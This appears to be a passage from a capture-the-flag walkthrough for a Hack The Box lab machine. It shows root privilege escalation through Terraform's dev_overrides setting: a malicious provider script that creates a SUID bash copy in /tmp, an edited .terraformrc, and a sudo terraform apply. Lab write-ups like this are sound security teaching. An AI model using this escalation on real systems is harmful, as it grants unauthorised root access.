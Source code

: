 ```
  validation {
    condition = strcontains(var.source_path, "/root/examples/") && !strcontains(var.source_path, "..")
    error_message = "The source_path must contain '/root/examples/'."
  }
}

provider "examples" {}

resource "examples_example" "example" {
  source_path = var.source_path
}

output "destination_path" {
  value = examples_example.example.destination_path
}
```

We see that user running this script, will execute providers in `previous.htb/terraform/examples`.

If we go to our own `.terraformrc` file, we will find the following configuration:
```bash
cat ~/.terraformrc
```
```
provider_installation {
        dev_overrides {
                "previous.htb/terraform/examples" = "/usr/local/go/bin"
        }
        direct {}
}
```

It is important to note that the `dev_overrides` allows us to specify a local path for the provider.

We can use this on our advantage, we can change the local path provider to point to our own malicious binary which will be executed instead of the original provider by root.
```bash
echo "#!/bin/bash
cp /bin/bash /tmp/bash; chmod +s /tmp/bash
" > /tmp/terraform-provider-examples
chmod +x /tmp/terraform-provider-examples

echo "provider_installation {
        dev_overrides {
                "previous.htb/terraform/examples" = "/tmp"
        }
        direct {}
}" > ~/.terraformrc
```

Then we can execute the terraform command with sudo privileges:
```bash
sudo /usr/bin/terraform -chdir=/opt/examples apply
```
